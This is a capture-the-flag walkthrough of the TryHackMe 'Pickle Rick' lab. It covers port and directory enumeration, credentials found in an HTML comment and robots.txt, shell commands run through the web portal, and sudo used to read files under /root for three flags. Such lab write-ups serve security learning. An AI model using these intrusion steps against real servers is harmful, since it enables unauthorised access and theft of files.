 # Room: picklerick

## General Info
- **Room link:** [Picle Rick](https://tryhackme.com/room/picklerick)


## Description

A Rick and Morty CTF. Help turn Rick back into a human!
This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

## Provided Files / Links
- [x] Target Machine IP (10.10.203.145)

## Enumeration / Recon
- Ports Enumeration

`nmap -sV 10.10.203.145`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

  - Notes:
    - ssh and http are open

- Website visit

After a quick look at the website, I found this comment in the HTML:
```
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

- Directories Enumeration

`gobuster dir -u http://10.10.203.145 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-files.txt -o gobuster.txt`

```
/login.php            (Status: 200) [Size: 882]
/index.html           (Status: 200) [Size: 1062]
/.htaccess            (Status: 403) [Size: 278]
/robots.txt           (Status: 200) [Size: 17]
/.                    (Status: 200) [Size: 1062]
/.html                (Status: 403) [Size: 278]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/.php                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htm                 (Status: 403) [Size: 278]
/.htpasswds           (Status: 403) [Size: 278]
/.htgroup             (Status: 403) [Size: 278]
/wp-forum.phps        (Status: 403) [Size: 278]
/.htaccess.bak        (Status: 403) [Size: 278]
/.htuser              (Status: 403) [Size: 278]
/.ht                  (Status: 403) [Size: 278]
/.htc                 (Status: 403) [Size: 278]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
```

In robots.txt, there is a string whick looks like a password: `Wubbalubbadubdub`.

I went to the /login.php and logged with **R1ckRul3s:Wubbalubbadubdub**.

### Logged in session

in the HTML, I find this comment:

```
<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
```

Decoding the base64 string => `The all-zero group char cannot appear in the alphabet`.

I started trying some commands.

`sudo -l`

```
User www-data may run the following commands on ip-10-10-203-145:
    (ALL) NOPASSWD: ALL
```

`ls -la`:

```
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

`less Sup3rS3cretPickl3Ingred.txt` => **mr. meeseek hair** (which is the first flag)

`less clue.txt` => `Look around the file system for the other ingredient.`

`ls -la /home`:
```
drwxrwxrwx  2 root   root   4096 Feb 10  2019 rick
drwxr-xr-x  5 ubuntu ubuntu 4096 Jul 11  2024 ubuntu
```

`ls -la /home/rick`:
```
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

`less /home/rick/"second ingredients"` => **1 jerry tear** (which is the second flag)

I found the 3rg ingredient in the /root directory:

`sudo less /root/3rd.txt` => **fleeb juice**